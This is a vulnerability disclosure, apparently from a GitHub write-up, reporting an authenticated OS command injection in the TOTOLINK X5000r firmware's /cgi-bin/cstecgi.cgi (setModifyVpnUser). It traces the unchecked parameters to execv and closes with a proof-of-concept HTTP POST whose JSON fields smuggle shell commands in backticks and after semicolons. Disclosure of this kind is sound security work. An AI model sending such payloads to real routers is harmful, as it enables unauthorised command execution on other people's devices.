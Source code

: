 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setModifyVpnUser`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setModifyVpnUser` (at 0x41053C) of binary /cgi-bin/cstecgi.cgi. The parameter `authenticate`,`username`,`password` are passed to 'Uci_set_str' without any check. 
![setModifiedVpnUser](image.png)
Uci_Set_Str passes the parameter `authenticate`,`username` and `password` as the fourth argument, which is in libcscommon.so. It can be observed that Uci_Set_Str calls snprintf to format our param_4 into the string uci -c %s set .... and passes the string to the CsteSystem function,which will eventually be called by execv.
![uci_set_str](image-1.png)
![uci_set_str2](image-2.png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 188
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "setModifyVpnUser", "idx": "wzqwzqwzq", "authenticate": ";`wzq`", "username": ";ls'", "password": "`ls`", "accessLimit": "wzqwzqwzq", "comment": "`ls`", "ipaddr": "wzqwzqwzq"}
```
![alt text](image-3.png)